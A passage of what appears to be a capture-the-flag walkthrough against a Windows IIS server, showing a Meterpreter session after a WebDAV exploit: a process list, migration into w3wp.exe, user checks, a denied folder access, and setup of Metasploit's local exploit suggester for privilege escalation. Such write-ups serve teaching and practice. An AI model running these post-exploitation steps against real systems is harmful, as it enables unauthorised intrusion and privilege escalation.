  1076  396   cisvc.exe
 1120  396   svchost.exe
 1180  396   inetinfo.exe
 1216  396   svchost.exe
 1328  396   VGAuthService.exe
 1408  396   vmtoolsd.exe
 1456  396   svchost.exe
 1636  396   alg.exe
 1668  396   svchost.exe
 1764  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1880  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1916  396   dllhost.exe
 2268  348   logon.scr
 2300  584   wmiprvse.exe
 2456  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2636  1456  w3wp.exe
 3064  1880  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 4056  1076  cidaemon.exe

meterpreter > migrate 1880
[*] Migrating from 3064 to 1880...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\NETWORK SERVICE
Privilege Escalation:
With the current privilege level, we cannot access the user or administrator details.
meterpreter > cd Documents\ and\ Settings 
meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-04-12 10:12:15 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-04-12 10:32:01 -0400  Harry
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:32 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:31 -0400  NetworkService

meterpreter > cd Harry 
[-] stdapi_fs_chdir: Operation failed: Access is denied.
To elevate privilege, we need to check for local vulnerabilities that can be exploited. The local_exploit_suggester module comes in handy in such scenarios. All we need to do is keep the open session in the background and run the module with the "session" option set to the session id.
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options 
